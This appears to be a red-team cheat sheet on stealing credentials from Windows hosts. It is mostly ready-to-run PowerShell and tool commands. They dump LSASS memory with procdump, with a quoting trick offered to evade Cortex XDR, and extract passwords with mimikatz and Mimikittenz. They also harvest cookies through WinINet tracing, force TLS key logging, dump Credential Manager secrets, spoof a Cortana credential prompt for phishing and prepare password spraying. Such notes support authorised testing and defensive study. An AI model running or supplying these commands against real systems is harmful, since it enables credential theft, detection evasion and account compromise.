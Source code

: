 # Windows 
---
# Navigation
1. **[[# Process memory]]**
	- [[#1- Procdump exe]]
	- [[#2- Mimikittenz Not working on windows 10]]
	- [[#3- mimikatz]]
2. **[[#Abusing logging tracing]]**
	- [[#1- Tracing the WinINet provider]]
	- [[#2- Decrypting TLS traffic using TLS key logging Not working on latest firefox and chrome]]
	- [[#3- Peeking at shell command-line history files]]
	- [[#4- Command line arguments]]
3. **[[#Windows Credential Manager]]**
4. **[[#Phishing and credential dialog spoofing]]**
5. **[[#Password spray attacks]]**
---
 # Process memory:
 ## 1- Procdump.exe
 ```powershell
procdump.exe -accepteula -ma <PID> /temp/proc.dmp
 
#Additionally, depending on the EDR, it may be sufficient to simply add quotations around the process name (This bypasses Cortex XDR for example):
procdump.exe -accepteula -ma “lsass.exe” out.dmp

 ```
To dump all processes:
```powershell
#make sure to install procdump from Systeinternals and have it in your path
Get-Process | % {procdump.exe -ma $_.Id }

gci *.dmp | % { strings.exe -n 17 $_.Name | Select-String "password=" | Out-File ($_.Name+".txt")}
```
> **Important Note:**
> It's recommended to dump a single process at a time for investigation because dumping all processes takes alot of time and could trigger detections especially when working with LSASS.
> 
> **Download:** https://download.sysinternals.com/files/SysinternalsSuite.zip

 ## 2- Mimikittenz (Not working on windows 10)
 Rather than writing files to disk, Mimikittenz will read the memory of processes using the Win32 API  `ReadProcessMemory`  to search for a set of common credentials.  `Mimikittenz`  can easily be customized to search for additional regular expressions in process memory.
```powershell
Invoke-Mimikittenz
```
> **Download:** https://github.com/orlyjamie/mimikittenz

 ## 3- mimikatz
 ```powershell
sekurlsa::minidump lsass.DMP
log lsass.txt
sekurlsa::logonPasswords
 ```
 
 ---
 # Abusing logging & tracing:
 For debugging and monitoring purposes, applications and services emit logs and traces. This enables ***privileged*** users on the machine to get more insights into the inner workings of an application during runtime. Windows has a powerful tracing infrastructure called **`Event Tracing for Windows (ETW)`**
 There are tools out of the box in Windows to interact with ETW, and they allow us to start traces, collect data, and stop them, such as **`wevtutil`** and **`logman`** .
-  **`logman`** : Allows us to manage event tracing sessions.
 Run the following command to see what providers are available:
 ```powershell
 logman query providers
 ```
 
## 1- Tracing the WinINet provider
The Windows Internet (WinINet) application programming interface (API) enables your application to interact with FTP and HTTP protocols to access Internet resources. it also can be used to inspect TLS traffic.
1. **Launch a tracing session with logman as an Administrator:**
```powershell
logman start WinInetSession -p "Microsoft-Windows- WinInet" -o WinInetTraceSession.evt -ets
```
2. **Now tracing events are now written to the provided evt file**
3. **Searching event file to get some juicy info such as cookies:**
```powershell
# The following is just an example, consider knowing the cookie header for what you are interested in..
.\strings.exe -nobanner -n 8 .\WinInetTraceSession.evt | Select-String "Set-Cookie: "
```
4- If you'd like to view the binary file in Event Viewer, you can do that too. Just launch **`eventvwr.exe`** and open the file 

You can convert the event file into a text file:
```powershell
# Converting into text file
wevtutil qe WinInetTraceSession.evt /lf:True /f:Text > WinInetTrace.log
```
> **Important Note:**
> Microsoft Edge & Internet Explorer use this provider, so in case of other browsers, you will have to know their provider or another tracing technique.

## 2- Decrypting TLS traffic using TLS key logging (Not working on latest firefox and chrome)
In order to decrypt TLS traffic, TLS key logging can be leveraged, which is a feature that will write TLS sessions keys to a user-defined location. The location can be specified via the **SSLKEYLOGFILE** environment.
```powershell
[Environment]::SetEnvironmentVariable("SSLKEYLOGFILE ","c:\temp\ssl.keylog","MACHINE")
# Verifying
 [Environment]::GetEnvironmentVariable("SSLKEYLOGFILE ","MACHINE")
```
> **Note:**  The target environment variable is  **`Machine`** , then the environment variable is stored in the HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Control\Session Manager\Environment key of the local computer's registry. It is also copied to all instances of File Explorer. The environment variable is then inherited by any new processes that are launched from File Explorer.

- **Now lets capture network traffic**
```powershell
netsh trace start capture=yes tracefile=c:\temp\tracing.etl
# Stop
netsh trace stop
```
- **use  `Microsoft Message Analyzer`   to convert the .etl file into a .cap file that Wireshark can process**
- **Finally analyze with wireshark**

## 3- Peeking at shell command-line history files
- Get the history file location
```powershell
(Get-PSReadLineOption).HistorySavePath
```
## 4- Command line arguments
- Using  **`WmiObject`**
```powershell
Get-WmiObject Win32_Process | Select-Object Name, CommandLine
```
- Using  **`wmic.exe`** (wmic will be removed in the future)
```powershell
# Removing spaces will cause an error
wmic process get name,processid,commandline
```
---
#  Windows Credential Manager
Windows Credential Manager is used to store credentials. It is used by some browsers (not Chrome or Firefox, though).
- Retrieve saved web logins ( [Get-WebCredentials.ps1](https://github.com/samratashok/nishang/blob/master/Gather/Get-WebCredentials.ps1))
```powershell
$ClassHolder = [Windows.Security.Credentials.PasswordVault,Windows.Security.Credentials,ContentType=WindowsRuntime]

$VaultObj = new-object Windows.Security.Credentials.PasswordVault

$VaultObj.RetrieveAll() | foreach { $_.RetrievePassword(); $_ }
```
> **More ways to abuse windows cred. manager using mimikatz:** 
> https://github.com/gentilkiwi/mimikatz/wiki/howto-~-credential-manager-saved-credentials

---
# Phishing and credential dialog spoofing
- Spoofed dialog box
```powershell
 $creds = Get-Credential -UserName $env:USERNAME -Message "Cortana wants setup a reminder and needs your permission"
```

---
# Password spray attacks
- Determine the password policy to avoid locking accounts
```powershell
# Using crackmapexec
crackmap exec [options..] --pass-pol
# Powershell
Get-ADDefaultDomainPasswordPolicy
Get-ADUserResultantPasswordPolicy
```
- Password spraying
	- [Sharpspray](https://github.com/iomoath/SharpSpray) 
	- [Crackmapexec](https://github.com/byt3bl33d3r/CrackMapExec)